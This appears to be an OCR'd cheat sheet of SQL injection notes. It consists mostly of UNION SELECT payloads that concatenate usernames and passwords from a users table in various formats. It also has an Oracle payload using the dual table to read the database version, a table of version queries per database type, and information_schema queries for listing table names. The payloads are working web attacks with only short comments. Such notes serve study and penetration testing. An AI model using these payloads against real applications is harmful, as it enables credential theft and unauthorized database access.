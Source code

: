 > 
> >     UNION SELECT username || '_' || password FROM users -> username_password
> 
> >     UNION SELECT username || '>' || password FROM users -> username>password
> 
> >     UNION SELECT username || '\' || password FROM users -> username\password
> 
> >     UNION SELECT username || '/' || password FROM users -> username/password

<hr>

> to split column username and password with just space to have better visualization:
>
> >     UNION SELECT username || ' ' || password FROM users

<hr>

> to split with other ways like username: username & password: password:
>
> >     UNION SELECT 'username: ' || username || ' & password: ' || password FROM users

<hr>

> even better can try using AS formatted_output:
>
> >     UNION SELECT 'username: ' || username || ' & password: ' || password AS formatted_output FROM users

<hr>

injections with oracle built-in table:
> *notes: oracle must include FROM at least a table*
> *oracle built-in table 'dual' can be useful*
> example of using dual to get the database type and version:
> 
> >     ' UNION SELECT * FROM dual, v$version--

<hr>

> to query database type and version:

| Database type    | Query                   |
|------------------|-------------------------|
| Microsoft, MySQL | SELECT @@version        |
| Oracle           | SELECT * FROM v$version |
| PostgreSQL       | SELECT version()        |
<hr>

> get all table in non oracle:
>
> > Show all table informations
> >
> >     SELECT * FROM information_schema.tables
>
> > Show only table names
> > 
> >     SELECT TABLE_NAME FROM information_schema.tables
>
> > In the case when the original query two column
> >
> >     SELECT TABLE_NAME,NULL FROM information_schema.tables
